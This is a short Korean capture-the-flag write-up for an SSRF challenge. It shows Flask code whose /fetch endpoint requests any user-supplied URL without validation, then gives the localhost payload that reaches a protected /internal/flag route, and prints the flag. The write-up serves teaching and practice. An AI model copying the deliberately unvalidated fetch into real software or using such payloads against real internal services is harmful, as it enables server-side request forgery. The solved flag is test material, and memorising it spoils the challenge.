

## ssrf-internal

```python
@app.route("/internal/flag")
def internal_flag():
    # 내부(localhost)에서의 요청만 허용 — 외부에서 직접 접근 불가
    if request.remote_addr in ("127.0.0.1", "::1"):
        return FLAG
        
@app.route("/fetch")
def fetch():
    url = request.args.get("url", "")
    if not url:
        return "url 필요"
    try:
        r = requests.get(url, timeout=3)        # ── SSRF sink (스킴/호스트 검증 없음) ──
        return "<pre>" + r.text[:2000] + "</pre>"
```

flag를 획득하기 위해서는 `/internal/flag` 에 로컬로 접근해야 함을 알 수 있다.

`/fetch` 의 url 파라미터가 별도의 검증 없이 서버측 요청을 날린다는 사실을 알 수 있다.

```python
http://127.0.0.1:9502/internal/flag
```

해당 페이로드를 fetch로 날리게 되면 flag를 획득 할 수 있다.



flag{d696f623019d5d480465}
